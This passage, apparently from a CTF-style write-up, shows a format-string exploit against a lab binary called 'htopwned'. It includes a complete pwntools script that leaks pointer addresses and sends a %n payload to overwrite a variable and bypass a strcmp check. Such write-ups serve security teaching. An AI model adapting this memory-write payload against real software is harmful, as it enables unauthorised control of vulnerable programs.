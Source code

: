 And see what happens in debugger, right before strcmp call:

![Screenshot](/assets/pwn2-13.png)

After this payload, we are able to completely bypass the strcmp() call and proceed to htop process spawn.

Our current exploit code is the following:

```python
#!/usr/bin/env python

from pwn import *
from time import sleep

def get_pointer_addr(process):
    return int(process.recvuntil("\n").strip("\n"), 16)

p = process("./htopwned")
sleep(2)

# This retrieves choice variable pointer and stores it integer value
p.recvuntil("choice => ")
choice_addr = get_pointer_addr(p)

# This retrieves input variable pointer and stores it integer value
p.recvuntil("input  => ")
input_addr = get_pointer_addr(p)

print("Choice variable is in memory address 0x%x" % choice_addr)
print("Input variable is in memory address 0x%x" % input_addr)


bypass_strcmp = 1157630569

payload = p32(choice_addr) + "AAAA" + "%x%x%{0}x%n".format(bypass_strcmp)

p.recv()
p.sendline(payload)
sleep(2)
print(p.recv())
```
